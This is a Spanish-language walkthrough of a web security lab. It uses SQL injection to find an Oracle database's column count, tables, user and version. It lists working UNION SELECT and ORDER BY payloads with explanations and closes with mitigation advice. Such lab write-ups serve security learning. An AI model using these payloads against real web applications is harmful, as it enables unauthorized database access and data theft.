 Objetivo del laboratorio:

 - Es identificar el sistema de gestión de bases de datos (DBMS) utilizando por la aplicación y determinar su versión mediante una inyección SQL 

Explicación Técnica 

>  En este caso se plantea una vulnerabilidad en la aplicación web que permite a un atacante modificar consultas SQL legitimas. Al explotar esta debilidad, es posible extraer información sobre la tecnología utilizada en el backend. Igualmente se identifica el sistema de datos relacional subyacente utilizado por el sitio web.

> Las bases de datos Oracle tienen estructuras y métodos específicos para almacenar detalles sobre su versión. Al manipular las consultas de la aplicación, un atacante puede hacer que el sistema devuelva datos internos que normalmente no deberían ser accesibles. 

Primero vamos a capturar el código de la pagina y lo enviaremos al Repeater

![[vulnerabilidades/web academy/SQL injection Oracle/test1.png]]

ahora en Repeater vamos a empezar a modificar las solicitudes con "ORDER", Primero vamos a probar con este: 

     '+order+by+1--

*Explicación del código*: Este código es una prueba de inyección que usa la clausula "ORDER BY" para determinar el numero de columnas en una consulta. 

-  ORDER BY 1: Intenta ordenar los resultados por la primera columna
- -- : Comenta el resto de la consulta para evitar errores.  

que debería; si es que la vulnerabilidad esta, darnos una respuesta "200 OK"

![[vulnerabilidades/web academy/SQL injection Oracle/test 2.png]]

modificamos el GET y veremos que nos da la respuesta esperada. y como vemos que esta consulta funciona es que al menos una columna existe. o sea que podemos probar con aumentar el numero por ejemplo:

     '+order+by+2--

o con

     '+order+by+3--

![[vulnerabilidades/web academy/SQL injection Oracle/test3.png]]

y por ultimo probamos con el "3"

![[vulnerabilidades/web academy/SQL injection Oracle/test4.png]]

pero con el numero 3 nos da "server error" o sea que solo hay "2" columnas. lo que ahora vamos a probar con otra consulta. 

     '+UNION+SELECT+NULL,NULL+FROM+dual-- 

*Explicación del código*: 

- UNION SELECT: intenta unir otra consulta a la existente
- NULL, NULL: se usa para igualar el numero de columnas de la consulta original
- FROM dual: en oracle, dual es una tabla especial utilizada para obtener resultados sin acceder a datos reales. 

![[vulnerabilidades/web academy/SQL injection Oracle/test5.png]]

y como vemos tenemos la respuesta de "200 OK" mas el código, asi que vamos a validar el tipo de dato por cada campo

![[vulnerabilidades/web academy/SQL injection Oracle/test6.png]]

Como vemos muestra el resultado o sea que si probamos con cadenas de texto para comprobar si los campos aceptan valores tipos STRING, el codigo quedaria 

     '+UNION+SELECT+'Spartan','Prueba de vulnerabilidad'+FROM+dual--

La relación con la validación de tipos de datos: 

> Al ejecutar esta inyección, si la consulta no genera errores que no fue el caso, significa que los campos aceptan valores de tipo "texto", si da un error, se debe probar con los otros tipos de datos como numérico o fechas. hasta encontrar la combinación correcta. Esto ayuda a preparar ataques mas avanzados, como por ejemplos extracción de datos sensibles. 

ahora como sabemos que tenemos resultado en eso, vamos a probar con algun usuario que pueda ver. 

     '+UNION+SELECT+user,'prueba 2 de vul'+FROM+dual-- HTTP/2

![[vulnerabilidades/web academy/SQL injection Oracle/test7.png]]

y como vemos tenemos resultado, nos da el usuario "Peter" que es el usuario predeterminado del laboratorio. ahora vamos a probar un payload para obtener nombres de la base de datos. 

     '+UNION+SELECT+sys.database_name,'prueba 3 vuln'+FROM+dual-- 

![[vulnerabilidades/web academy/SQL injection Oracle/test8.png]]

y obtenemos resultado con el "XE", también podemos probar con obtener las tablas

     '+UNION+SELECT+table_name,+NULL+FROM+all_tables-- 

![[vulnerabilidades/web academy/SQL injection Oracle/test9.png]]

tenemos las tablas de la base de datos, ahora vamos a probar con consultar la versión de BD

> *Extraer la versión del motor de base de datos*: ahora que sabemos que cantidad y tipo de columnas aceptadas en la consulta, es posible usar funciones especificas del DBMS para obtener su versión. Esto en un ataque ayuda a identificar vulnerabilidades conocidas en esa versión que hay y planificar ataques mas avanzados.  

![[vulnerabilidades/web academy/SQL injection Oracle/test10.png]]

entonces probamos el comando: 

     '+UNION+SELECT+BANNER,+NULL+FROM+v$version--

y vemos que nos entrega la versión por la cual podemos ver explotaciones. 

> Mitigación: 

La mitigación de la inyección SQL  se logra usando consultas preparadas, que separan los datos del código SQL y validando entradas para asegurarse de que solo se acepten datos esperandos. los  los *ORMs* generan consultas seguras sin concatenar datos manualmente, mientras que el principio de menor privilegio limita los permisos de los usuarios en la base de datos. Deshabilitando mensajes de error detallados, impide que los atacantes obtengan información sobre la estructura de la base de datos. 

> ORMs --> son herramientas que permiten interactuar con base de datos utilizando objetos en lugar de escribir consultas SQL manualmente. Con ORMs los desarrolladores pueden trabajar con datos de la base de datos como si fuera objetos en el código. lo que abstrae la complejidad de las consultas SQL. o sea que esto evita problemas como la inyección SQL, ya que las consultas se generan automáticamente y los datos se manejan de manera segura. 